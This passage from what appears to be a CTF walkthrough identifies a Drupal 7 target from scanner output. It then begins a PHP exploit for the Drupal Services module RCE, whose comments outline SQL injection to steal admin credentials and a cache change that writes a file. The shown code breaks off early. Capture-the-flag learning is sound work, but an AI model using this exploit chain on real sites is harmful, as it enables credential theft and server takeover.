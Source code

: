 + OSVDB-3092: /user/: This might be interesting…

We can see that the web server is running Drupal 7 and it is vulnerable to several to XSS and possibly SQL Injection. I started looking for a Drupal 7 exploit and I came across https://www.ambionics.io/blog/drupal-services-module-rce

They explain in depth the code of the exploit in the link above. I suggest to read it even if you’re not doing the CTF.

I named this file drupal.php

#!/usr/bin/php

<?php

# Drupal Services Module Remote Code Execution Exploit
# https://www.ambionics.io/blog/drupal-services-module-rce
# cf
#
# Three stages:
# 1. Use the SQL Injection to get the contents of the cache for current endpoint
# along with admin credentials and hash
# 2. Alter the cache to allow us to write a file and do so
# 3. Restore the cache
 
# Initialization

error_reporting(E_ALL);

define(‘QID’, ‘anything’);

define(‘TYPE_PHP’, ‘application/vnd.php.serialized’);

define(‘TYPE_JSON’, ‘application/json’);

define(‘CONTROLLER’, ‘user’);

define(‘ACTION’, ‘login’);

$myfile = fopen(“payload1.txt”, “r”) or die(“Unable to open file!”);

$payload1 = fread($myfile,filesize(“payload1.txt”));
